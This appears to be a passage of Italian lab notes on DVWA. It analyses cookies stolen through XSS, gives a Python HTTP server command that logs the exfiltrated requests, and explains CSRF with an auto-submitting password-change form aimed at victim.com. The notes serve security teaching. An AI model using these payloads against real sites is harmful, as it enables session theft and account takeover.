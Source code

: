 **Analisi dei Cookie Rubati**:
- **security=low**: Livello di sicurezza DVWA
- **PHPSESSID=7clamc268ghvt4nsgie41mvpol**: Identificatore di sessione PHP
- **URL encoding**: Gli spazi sono convertiti in `%20`
- **IP source**: `192.168.1.100` (server DVWA target)

**Problema Identificato**: Il server non salva automaticamente i cookie. 

**Soluzione**: Ampliare il server Python con reindirizzamento ai log:
```bash
python3 -m http.server 8000 >> logs.txt 2>&1
```

Questo comando salva tutti i log del server in un file per consultazione successiva.

---

## Cross-Site Request Forgery (CSRF)

### CSRF Fundamentals

**Cross-Site Request Forgery** ha l'obiettivo di forzare un browser autenticato a inviare una richiesta non voluta (POST, GET, PUT) a un'applicazione target in cui l'utente ha una sessione attiva.

**Meccanismo di Sfruttamento**:
- L'attaccante sfrutta la sessione attiva dell'utente
- I cookie sono automaticamente inviati con ogni richiesta al dominio target
- Il server elabora la richiesta come se fosse legittima

### Esempio di Applicazione Vulnerabile

**Cambio Password Vulnerability**:
```http
POST /change_password.php
Content-Type: application/x-www-form-urlencoded

new_password=hacked&confirm_password=hacked
```

**Contesto**: L'utente è loggato e ha un cookie `PHPSESSID=abc123`.

### Payload CSRF

**Form HTML Malevolo**:
```html
<form action="http://victim.com/change_password.php" method="POST">
  <input type="hidden" name="new_password" value="hacked">
  <input type="hidden" name="confirm_password" value="hacked">
  <input type="submit">
</form>

<script>
document.forms[0].submit(); // invio automatico
</script>
```
